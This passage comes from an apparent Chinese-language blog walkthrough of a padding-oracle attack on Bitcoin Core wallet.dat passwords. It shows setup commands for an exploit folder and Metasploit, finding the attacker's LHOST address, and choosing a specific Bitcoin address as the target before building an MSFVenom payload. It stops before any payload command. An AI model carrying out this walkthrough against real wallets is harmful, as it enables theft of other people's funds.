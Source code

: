 cd ExploitDarlenePRO/

ls</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-4.png" alt="Padding Oracle 對流行的 Bitcoin Core 錢包的 Wallet.dat 密碼解密的攻擊"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>要運行該漏洞，讓我們回到<code><strong>Metasploit Framework</strong></code></p>



<pre class="wp-block-code"><code>cd /

cd content/metasploit-framework/

ls</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-101-1024x477.png" alt="Padding Oracle 對流行的 Bitcoin Core 錢包的 Wallet.dat 密碼解密的攻擊" class="wp-image-4205"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>我們需要識別我們的<strong><code>LHOST&nbsp;(Local Host)</code></strong>攻擊&nbsp;<strong><code>IP-address</code></strong>虛擬機器。</p>



<p><strong>讓我們運行命令：</strong></p>



<pre class="wp-block-code"><code>!ip addr
!hostname -I</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-6.png" alt="Padding Oracle 對流行的 Bitcoin Core 錢包的 Wallet.dat 密碼解密的攻擊" class="wp-image-3795"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>讓我們使用該工具來創建有效負載&nbsp;<strong><code>MSFVenom</code></strong></p>



<p>操作時選擇比特幣錢包：<strong><a href="https://btc1.trezor.io/address/1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b" target="_blank" rel="noreferrer noopener">1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b</a></strong>&nbsp;</p>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-80.png" alt="Libbitcoin Explorer 3.x庫中的Milk Sad漏洞，如何從比特幣錢包（BTC）用戶竊取90萬美元"/><figcaption class="wp-element-caption"><a href="https://btc1.trezor.io/address/1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b" target="_blank" rel="noreferrer noopener">https://btc1.trezor.io/address/1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b</a></figcaption></figure>



<p><strong>啟動命令：</strong></p>
